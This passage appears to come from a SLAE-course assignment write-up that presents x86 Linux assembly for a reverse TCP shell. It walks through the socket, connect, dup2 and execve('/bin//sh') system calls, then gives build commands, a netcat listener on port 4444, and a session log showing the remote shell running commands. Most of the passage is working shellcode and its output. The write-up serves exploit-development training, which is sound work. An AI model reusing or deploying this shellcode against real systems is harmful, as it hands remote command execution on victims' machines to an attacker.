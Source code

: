 ```nasm
    mov   cl, 0x01        ; $ecx: SOCK_STREAM
    int   0x80
    mov   ebx, eax        ; $ebx: socket file descriptor

    ; call connect(sockfd, sockaddr, socklen_t)
    mov   ax, 0x16a
    mov   ecx, esp
    mov   edx, ebp
    sub   edx, esp        ; $ecx: size of the sockaddr struct
    int   0x80

    ; call dup2 to redirect STDIN, STDOUT and STDERR
    xor   ecx, ecx
    mov   cl, 0x3
    dup:
    xor   eax, eax
    mov   al, 0x3f
    dec   ecx
    int   0x80
    inc   ecx
    loop  dup

    ; spawn /bin/sh using execve
    ; $ecx and $edx are 0 at this point
    xor   eax, eax
    xor   edx, edx
    push  eax
    push  0x68732f2f
    push  0x6e69622f
    mov   ebx, esp        ; [$ebx]: null terminated /bin//sh
    mov   al, 0x0b
    int   0x80
```

Compiling & Testing
-------------------
To compile the program, run: `nasm -f elf32 reverse_tcp.asm && ld -m elf_i386 reverse_tcp.o -o reverse_tcp`

Once compiled, start a netcat listener on port `4444` by running `nc -vlp 4444` and then run the `reverse_tcp` executable. If successful, a connection should be made to the netcat listener with a shell that can execute commands as can be seen below:

```shell_session
$ nc -vlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from localhost 33048 received!
pwd
/home/rastating/Code/slae/assignment_2
netstat -an | grep "4444"
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN     
tcp        0     26 127.0.0.1:4444          127.0.0.1:33048         ESTABLISHED
tcp        0      0 127.0.0.1:33048         127.0.0.1:4444          ESTABLISHED
unix  3      [ ]         STREAM     CONNECTED     44442    
unix  3      [ ]         STREAM     CONNECTED     44441    
unix  3      [ ]         STREAM     CONNECTED     44440    
```
